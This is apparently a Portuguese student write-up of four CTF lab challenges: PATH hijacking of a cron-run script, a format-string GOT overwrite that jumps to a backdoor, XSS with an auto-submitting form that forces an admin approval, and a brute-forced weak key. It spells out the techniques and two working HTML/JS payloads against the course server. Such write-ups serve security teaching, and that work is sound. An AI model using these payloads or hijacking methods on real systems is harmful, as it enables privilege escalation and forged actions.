 # CTF Extras


## British Punctuality

- Primeiro lendo o código no main.c, descobrimos que a flag estava escrita no ficheiro /flags/flag.txt

![codigo main](/images/w5/extra_1.png) 

- Depois, reparámos que o script my_script.sh, exportava as variáveis de ambiente que estivessem no ficheiro /tmp/env, executava o comnado printenv e depois o programa reader.<br/>

![codigo my_script.sh](/images/w5/extra_2.png) 

- Criamos um printenv na pasta /tmp/, com cat /flags/flag.txt, e demos lhe permissões de execução.
- Então criamos o ficheiro env e escrevemos "PATH=/tmp/:$PATH"

![env and printenv](/images/w5/extra_3.png) 

- Depois executamos o script e vimos que não tinhamos permissões para ler a flag
- Reparámos que havia um script no "/etc/cron.d/", que executava o script "/home/flag_reader/my_script.sh" como flag_reader (a cada minuto), portanto tinha permissões para ler a flag.
![cron](/images/w5/extra_4.png) 

- Esperamos que o script executasse e lê-mos a flag do last_log .

![flag](/images/w5/extra_5.png) 

<br>




## Final Format
Ao correr o comando checksec podemos verificar que:
- o RELRO é parcial, o que significa que podemos alterar a GOT
- o programa tem canarios na stack
- a protecao NX está ativa, o que significa que um segmento de memória não pode ser executável e ser permitido escrever ao mesmo tempo.
- o PIE não está ativo, o que significa que os endereços das funções não se alteram em cada execução

![image-1.png](/images/ctf_fs/image-1.png)


Ao analisar o código com o ghidra vericamos que o programa era vulnerável a format string attacks na linha 17.

![image-2.png](/images/ctf_fs/image-2.png)

E que existe uma função chamada old_backdoor, que cria uma shell. Uma vez que não tem PIE, o enderço da função não irá ser alterado a cada execução pelo que será sempre este endereço 0x8049236.

![image-3.png](/images/ctf_fs/image-3.png)


Ao enviar %p, verificamos que os endereços mudam em cada execução o que significa que a aslr está ativa, portanto não conseguimos descobrir o endereço de retorno da função para a conseguir alterar para o endereço do old_backdoor.

![image-4.png](/images/ctf_fs/image-4.png)

Depois, reparamos que os da got são fixos.

![image-5.png](/images/ctf_fs/image-5.png)

No código reparamos que o fflush era chamado depois do scanf, por isso se alterarmos o endereço dele na tabele para executar a backdoor em vez do fflush, ele irá ser chamado antes do programa terminar.


Ao correr o seguinte script reparamos que não funcionava, uma vez que o servidor dava timeout (no computador local funcionava direito)

![image-6.png](/images/ctf_fs/image-6.png)

Por isso tentamos escrever primeiro os 2 primeiros bytes e depois os outros 2 bytes. Uma vez que o numero da direita (0x9236)  era maior que o da esquerda (0x0804), tivemos q dar overflow ,para conseguir escrever o endereco pretendido (0x08049236).
Primeiro escrevemos 4 bytes(AAAA) que vao ser lidos pelo primeiro %x, depois escrevemos o endereco que queremos alterar (do flush na got, 0x804c010), onde vamos escrever os primeiros bytes com o primeiro %n.
Depois escrevemos outra vez 4 bytes(AAAA) que vão ser lidos (e descartados) pelo segundo %x, e escrevemos o endereco do content + 2, para escrever apenas nos 2 bytes a seguir (e não alterarmos os que já escrevemos antes) 

![image-7.png](/images/ctf_fs/image-7.png)

E assim já funcionou 

![image-8.png](/images/ctf_fs/image-8.png)

## Apply For Flag II

Escrevemos um script na caixa de texto para verificar se era vulnerável a xss.

![](https://i.imgur.com/KW9QF4j.png)
E verificamos que era
![](https://i.imgur.com/exYmHdG.png)

Depois encontramos o botão que servia para o admin nos enviar a flag.

![](https://i.imgur.com/2qsy1WJ.png)

Uma vez que a porta do site de origem é diferente da do site onde se envia o post, se fizermos apenas um script que envia o pedido (usando fetch) o CORS bloqueia como se pode ver a seguir.

```htmlembedded=
<script> fetch("http://ctf-fsi.fe.up.pt:5005//request/4e860dc39ba2a2b06f97508f88194861dad75ebc/approve) ", {method: "POST"})</script>
```
![](https://i.imgur.com/bf3xyOm.png)

Uma forma de contornar isso é criar um form, e submetê-lo.

```htmlembedded=
<form id="flag_form" method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/28682e517d19ba1c197a730cebbb738e484b1fdc/approve" role="form"> <div class="submit"> <input type="submit" id="giveflag" value="Give the flag" > </div> </form> <script> console.log(document.getElementById('flag')); document.getElementById('giveflag').click() </script>
```

![](https://i.imgur.com/ySSonGg.png)




## NumberStation3
Observando o código fornecido, apesar da chave gerada ter 256 bits, de facto só existem 2^16 chaves possíveis, já que é feito um bitwise & com 1 para cada byte, ou seja, cada byte dos 16 que constituem a chave ou são iguais a 0 ou iguais a 1. 
![img](images/extras/numberstation3_b.png)

Como tal, é possível testar todas as chaves possíveis (65536) em tempo útil e, para cada uma destas, tentar decifrar o criptograma. Uma destas será a chave verdadeira e o resultado será a mensagem original, ou seja, a flag
![img](images/extras/numberstation3_a.png)








